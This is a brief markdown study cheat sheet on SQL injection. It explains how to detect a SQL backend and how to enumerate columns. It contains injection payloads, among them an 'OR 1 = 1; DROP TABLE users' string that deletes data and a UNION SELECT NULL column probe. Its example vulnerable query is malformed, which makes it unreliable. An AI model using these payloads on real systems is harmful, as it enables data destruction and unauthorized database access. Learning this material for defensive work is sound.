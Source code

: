 <!--
 * This file is part of RS Cheat Sheets.
 *
 * RS Cheat Sheets is free software: you can redistribute it and/or modify
 * it under the terms of the GNU General Public License as published by
 * the Free Software Foundation, either version 3 of the License, or
 * (at your option) any later version.
 *
 * RS Cheat Sheets is distributed in the hope that it will be useful,
 * but WITHOUT ANY WARRANTY; without even the implied warranty of
 * MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
 * GNU General Public License for more details.
 *
 * You should have received a copy of the GNU General Public License
 * along with RS Cheat Sheets. If not, see <https://www.gnu.org/licenses/>.
 */
-->

[Home](../README.md)

# SQL Injection

How do you know the database is using SQL?
- Error messages(Internal server error)
	- Test inputs with `'` or `"`
- HTTP headers or response bodies
- Look for SQL keywords

Union select sequences?

```SQL
' OR 1 = 1; DROP TABLE users; --

-- Comments might be # instead of --

' OR 1 = 1; DROP TABLE users; #
```

Get imputed into

```SQL
SELECT * FROM users WHERE = ' userInput ';
```

Once you know something is vulnerable to SQL injection, How do you extract information from the database?
- Find all the tables
- Find all the columns in each table
```SQL
' UNION SELECT NULL, NULL, NULL;
```
- If returns true then you know there are 3 columns for that table.
